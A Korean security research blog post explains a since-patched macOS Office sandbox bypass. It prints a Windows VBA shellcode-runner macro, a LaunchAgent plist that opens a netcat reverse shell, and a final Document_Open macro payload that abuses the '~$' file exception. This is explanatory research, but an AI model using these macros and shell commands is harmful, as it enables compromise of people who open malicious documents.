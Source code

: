 ```yaml
---
layout: post
title:  "MacOs에서 Office Sandbox Bypass"
author: "hkkiw0823"
comments: true
tags: [mac]
---
```


라온화이트햇 핵심연구팀 강인욱([iwkang@raoncorp.com](mailto:iwkang@raoncorp.com))


Office 공격이 유행함에 따라 최근 공격자들은 Windows 뿐만 아니라 MacOs까지 호환되도록 범위를 넓혔습니다. 해외에서는 MacOs를 사용하는 유저들이 더 많아서 Windows 만으로는 공격 성공률이 낮습니다. 하지만 지금까지 MacOs에서 Office 공격이 왜 발생하지 않았는지에 대해서 알아보도록 합니다.

* 이 문서에 기술된 시작프로그램 등록 방법은 현재 패치가 이루어져서 작동하지 않습니다.

일반적으로 Windows Macro는 아래와 같이 진행됩니다.

    
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As LongPtr, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As LongPtr
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As LongPtr, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As LongPtr
    Private Declare Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As Long, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As Long
    Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As Long
    Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As Long, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As Long
    
    
    Sub Auto_Open()
            Dim Wyzayxya As Long, Hyeyhafxp As Variant, Lezhtplzi As Long, Zolde As Long
    #If Vba7 Then
            Dim  Xlbufvetp As LongPtr
    #Else
            Dim  Xlbufvetp As Long
    #EndIf
            Hyeyhafxp = Array(232,137,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20, _
    139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207, _
    13,1,199,226,240,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192, _
    116,74,1,208,80,139,72,24,139,88,32,1,211,227,60,73,139,52,139,1, _
    214,49,255,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125, _
    36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4, _
    139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18, _
    235,134,93,106,1,141,133,185,0,0,0,80,104,49,139,111,135,255,213,187, _
    224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5, _
    187,71,19,114,111,106,0,83,255,213,99,97,108,99,0)
            Xlbufvetp = VirtualAlloc(0, UBound(Hyeyhafxp), &H1000, &H40)
            For Zolde = LBound(Hyeyhafxp) To UBound(Hyeyhafxp)
                    Wyzayxya = Hyeyhafxp(Zolde)
                    Lezhtplzi = RtlMoveMemory(Xlbufvetp + Zolde, Wyzayxya, 1)
            Next Zolde
            Lezhtplzi = CreateThread(0, 0, Xlbufvetp, 0, 0, 0)
    End Sub

excel.exe에 쉘코드를 삽입 후 CreateThread로 실행을 해주는 모습입니다.

Mac 에서는 아래와 같이 사용할 수 있습니다.

    Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
    Sub Document_Open()
       system("~~~~")
    End Sub

Mac에서는 더 간단한 것처럼 보이지만 Mac에는 기본적으로 Sandbox가 존재합니다.

Mac에서 아래와 같이 명령어를 입력하면 사용할 수 있는 권한이 나타납니다.

    codesign --display -v --entitlements - /Applications/Microsoft\ Word.app

    ...
    com.apple.security.files.bookmarks.app-scope
    com.apple.security.files.user-selected.read-write
    com.apple.security.network.client
    com.apple.security.personal-information.addressbook
    com.apple.security.print
    ...
    com.apple.security.temporary-exception.sbpl
    (allow file-read* file-write*
    (require-any
    (require-all (vnode-type REGULAR-FILE) (regex #"(^|/)~\$[^/]+$"))
    )
    )

Mac에서는 자체적으로 App마다 SandBox가 있어서 특정 행동을 하기 위해선 권한이 필요합니다. 아마 이 때문에 Mac에서 Office를 이용한 공격이 성행하지 않았던 것으로 보입니다.

위에 있는 Office 권한을 자세히 살펴보면 파일 읽기와 쓰기 권한을 사용할 때 특정 조건이 맞춰지면 사용할 수 있는 것처럼 보입니다.

    ~$xxxx.docx

어디서 많이 본 듯한 파일명입니다. Office의 경우 처음 문서를 열면 기본적으로 임시파일을 "~$파일명"에 생성합니다. 그렇기 때문에 Office를 실행할 때마다 권한 문제를 일으키지 않기 위해 정규식으로 허용해 둔 모습입니다.

이제 저 정규식을 가지고 Sandbox를 우회해봅니다.

MacOs에서는 아래와 같은 폴더에 plist파일을 등록하면 재부팅시 해당 바이너리를 실행하게 됩니다.

![/assets/launchd_dirs.png](/assets/launchd_dirs.png)

/System 이나 /Library 는 기본적으로 권한이 없어서 실제 공격시엔 유저 권한인 ~/Library를 이용해야 합니다.

~/Library/LauchAgents에 파일을 작성할 수 있다면 시작프로그램을 등록하여 재부팅할 때마다 악성프로그램이 동작하게 할 수 있습니다.

아래와 같이 plist파일을 작성하여 시작프로그램 폴더에 등록한다면 실제로 재부팅할 때마다 nc로 붙은 것을 확인할 수 있습니다.

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
    <plist version="1.0">
    <dict>
    <key>Label</key>
    <string>com.xpnsec.escape</string>
    <key>ProgramArguments</key>
    <array>
    <string>python</string>
    <string>-c</string>
    <string>import os; os.system("nc -e /bin/bash xxxxxx 31337")</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    </dict>
    </plist>

최종적인 페이로드는 아래와 같습니다.

    Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
    Private Sub Document_Open()
    Dim path As String
    Dim payload As String
    payload = "import os; os.system(\"nc -e /bin/bash xxxxxx 31337\")"
    path = Environ("HOME") & "/../../../../Library/LaunchAgents/~$com.xpnsec.plist"
    arg = "<?xml version=""1.0"" encoding=""UTF-8""?>\n" & _
    "<!DOCTYPE plist PUBLIC ""-//Apple//DTD PLIST 1.0//EN"" ""http://www.apple.com/DTDs/PropertyList-1.0.dtd"">\n" & _
    "<plist version=""1.0"">\n" & _
    "<dict>\n" & _
    "<key>Label</key>\n" & _
    "<string>com.xpnsec.sandbox</string>\n" & _
    "<key>ProgramArguments</key>\n" & _
    "<array>\n" & _
    "<string>python</string>\n" & _
    "<string>-c</string>\n" & _
    "<string>" & payload & "</string>" & _
    "</array>\n" & _
    "<key>RunAtLoad</key>\n" & _
    "<true/>\n" & _
    "</dict>\n" & _
    "</plist>"
    Result = system("echo """ & arg & """ > '" & path & "'", "r”)
    End Sub

2020. 03 기준으로 해당 우회법은 MS Office 측에서 패치를 하여 더 이상 사용할 수 없습니다.

시작프로그램에 등록하는 것은 불가능하지만 문서를 열었을때 쉘을 획득하여 이것저것 할 수는 있어 보입니다.